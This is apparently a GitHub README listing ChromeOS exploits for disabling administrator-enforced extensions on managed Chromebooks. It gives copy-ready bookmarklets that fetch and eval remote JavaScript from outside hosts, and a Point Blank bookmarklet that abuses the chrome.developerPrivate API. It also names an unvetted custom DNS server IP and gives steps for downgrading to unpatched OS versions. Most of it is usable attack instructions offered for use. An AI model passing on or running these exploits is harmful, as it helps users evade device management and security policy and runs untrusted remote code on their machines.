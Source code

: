 # EXT-REMOVER
This is a curated list of exploits for ChromeOS.   
Many of these exploits can destory your computer if used inproperly.  
  
[Echo put your shebeal  about how chromebooks are trash here]

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)  
Credit: LittleMissNyan

<details>
<summary><b>LTBEEF</b></summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The origional site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Instlation**  
There are several vesions of thisexploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 
</details>  

<details>
<summary><b>Point Blank</b></summary>
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page.  
This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>

1. Bookmark this code:
```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 125);
```
2. Navigate to `chrome://extensions` 
3. Click on a extension that YOU installed from the Chrome Web Store > Details
4. In the URL bar, copy the string of letters and numbers after the `/?id=`
5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet
5. Paste the id of the extension into the prompt. 
If you close the tab, the exploit will stop working.
</details>

<details>
<summary><b>SH1mmer</b></summary>


</details>

<details>
<summary><b>Downgrading</b></summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for sertain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.  
   
<i>Requirements</i>
1. USB A thumb drive with at least 16gb storage
2. A personal computer with access to downloading extentions

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)
2. Navigate to https://chrome100.dev/ , press ctrl+f and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>  
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"  
3. Select the recovery image you downloaded from chrome100  
4. Plug in the USB you wish to use, and follow the prompts on the screen  

5. On your chromebook, press esc+reload+power and follow the prompts  
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen  

7. Profit

</details>

<details>
<summary><b>Full Unenrollment</b></summary>
See SH1mmer 🤓
</details>